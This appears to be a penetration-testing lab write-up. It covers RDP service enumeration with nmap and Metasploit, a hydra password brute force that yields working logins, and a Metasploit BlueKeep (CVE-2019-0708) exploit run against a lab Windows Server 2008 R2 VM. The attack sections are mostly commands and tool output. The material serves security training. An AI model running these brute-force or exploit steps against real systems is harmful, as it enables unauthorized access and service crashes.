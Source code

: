 # 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> * Target IP: `10.4.18.131`
> * **RDP** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV 10.0.17.61
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 17:54 IST
Nmap scan report for 10.0.17.61
Host is up (0.0021s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.33 seconds
```

{% hint style="info" %}
RDP can be configured to run on another port instead of the default port
{% endhint %}

> Port 3333 instead of port 3339 is open but no service due to port is not assigned to any services.

* Use Metasploit [rdp\_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp\_scanner/) module to check if port `3333` is running RDP.
* Useful when performing black-box penetration test

```bash
msf5 > search rdp_scanner

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/rdp_scanner                   normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)
```

<pre class="language-bash"><code class="lang-bash">msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.0.17.61
<strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333 # default port 3389
</strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > run
</code></pre>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>RDP Detected</p></figcaption></figure>

> The RDP is running on target port `3333`

### RDP Brute Force

* Use hydra to find the valid `username` and `password` by using the dictionary wordlists

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt
```

{% hint style="warning" %}
Make sure to adjust the speed when performing the real world penetration test using `-t <default 16>` to prevent Denial of Services (DOS) or crashing the `Windows` system.
{% endhint %}

```bash
sts/unix_passwords.txt rdp://10.0.17.61 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-30 18:12:55
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.0.17.61:3333/
[3333][rdp] host: 10.0.17.61   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-30 18:13:35
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In this case, `freerdp` cannot be used in this lab, the only RDP client that can be used is `xfreerdp`.

```bash
xfreerdp  /u:Administrator /p:qwertyuiop /v:10.0.17.61:3333
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `port-number-3333`
{% endhint %}

***

## Lab 2 - Blue Keep

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windows Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool:
> * Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)

{% hint style="danger" %}
Targeting Kernel space memory and apps can cause system crashes.
{% endhint %}

### Enumeration

```bash
nmap -sV -sC 192.168.42.139 -Pn   
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 22:36 +08
Nmap scan report for 192.168.42.139
Host is up (0.0029s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Standard 7600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Domain_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Computer_Name: WIN-8M9K4MEH6MB
|   DNS_Domain_Name: WIN-8M9K4MEH6MB
|   DNS_Computer_Name: WIN-8M9K4MEH6MB
|   Product_Version: 6.1.7600
|_  System_Time: 2024-07-04T14:37:17+00:00
| ssl-cert: Subject: commonName=WIN-8M9K4MEH6MB
| Not valid before: 2024-07-03T14:36:09
|_Not valid after:  2025-01-02T14:36:09
|_ssl-date: 2024-07-04T14:37:57+00:00; 0s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

<figure><img src="../../../../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> RDP port 3389 is opened.

* Run `metasploit` auxiliary module to check the target expose to the BlueKeep vulnerability or not.

```bash
msfconsole
msf6 > search bluekeep
msf6 > use 0
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.42.139
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The target is vulnerable

### Exploitation

```bash
msf6 > use 3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.42.139
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> And boom it crashed&#x20;







